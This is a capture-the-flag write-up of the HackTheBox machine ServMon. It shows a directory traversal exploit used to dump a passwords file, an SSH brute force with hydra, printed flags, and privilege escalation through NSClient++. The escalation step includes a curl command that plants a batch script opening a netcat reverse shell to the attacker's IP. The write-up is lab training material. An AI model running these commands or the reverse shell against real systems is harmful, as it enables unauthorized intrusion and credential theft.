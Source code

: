 # ServMon

Author: Ewaël

**ServMon** is an easy HackTheBox box by dmw0ng.

`nmap -sC -sV -oN nmap 10.10.10.184 -v -A` shows lots of opened ports. Let's start with the 80 one.

![nvms](imgs/nvms.png)

Basic credentitials do not work but an exploit exists that allows dump any file on target: [CVE-2019-20085](https://www.exploit-db.com/exploits/48311). This exploit is available on metasploit and works perfectly, but I do not have any idea about what file to dump yet. Let's explore other ways, this one could be useful later.

Port 21 is open and anonymous access is allowed. I find two users: `Nadine` and `Nathan`, and two files: `Confidential.txt` and a useless todo list.

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

Now I know which file to dump! Let's get it through the directory traversal with `set filepath /users/nathan/desktop/passwords.txt`:

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

None of these work for the NVMS login page, let's try with the ssh login:

```
$ hydra -L users.txt -P passwords.txt 10.10.10.184 ssh
...
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
...
```

There it is! `Nadine` is the user with the flag:

`d16c47d65bb6dc9d9df64a7777373bb9`

Let's get the root flag. To begin with I upload winPEAS on target with curl to do some enumeration while reading again the `nmap` results. winPEAS finds `C:\WINDOWS\system32\inetsrv\appcmd.exe` which seems to be interesting but as I never did privilege escalation on Windows I prefer to start with something else. Port 8443 is open too but the website seems broken.

Luckily nmap is able to show an NSClient is running on it. Searching for known vulnerabilities I find [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802) and 

```
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution | json/webapps/48360.txt
```

I am able to dump the login password on target with `nscp web -- password --display` in `C:\Program Files\NSClient++` but `python3 48360.py -t 10.10.10.184 -P 8443 -p ew2x6SsGTxjRwXOT -c ls` does not seem to work. Going back on target I decide to print the NSClient config file instead of dumping the password only to see what is blocking the exploit.

```
> type nsclient.ini
...
; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
...
```

Here is the problem, I need to do some port forwarding to connect as localhost, that is also the reason why the site seemed so broken:

```
ssh -L 8080:127.0.0.1:8443 nadine@10.10.10.184
```

*Note: I took those screens while trying with `4444` as the forwarded port.*

![nsclient](imgs/nsclient.png)

I can now login with `ew2x6SsGTxjRwXOT`:

![logged](imgs/logged.png)

Let's do the exploit manually following [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802). I set up my listener on 4444 and add my malicious script in settings after uploading it on target as well as the `nc.exe` that I got there [https://eternallybored.org/misc/netcat](https://eternallybored.org/misc/netcat) which is actually the `nc64.exe` one that I renamed `nc.exe`:

![script](imgs/script.png)

Let's create the schedule that will execute the script:

![schedule](imgs/schedule.png)

Reload through `Control` panel and... Nothing. Something must be wrong somewhere but the machine is particurlarly slow and laggy so it is really a pain to reset it everytime my exploit fails. I end up doing it on the CLI as `Nadine` after reading some curl documentation:

```
$ curl -s -k -u admin -X PUT https://localhost:8080/api/v1/scripts/ext/scripts/evil.bat --data-binary "c:\Temp\nc.exe 10.10.14.24 4444 -e cmd.exe"
$ curl -s -k -u admin https://localhost:8080/api/v1/queries/evil/commands/execute?time=1m
```

And I finally get my shell as admin:

`9ec01e4f9a39388065e32d30b49dc0bf`
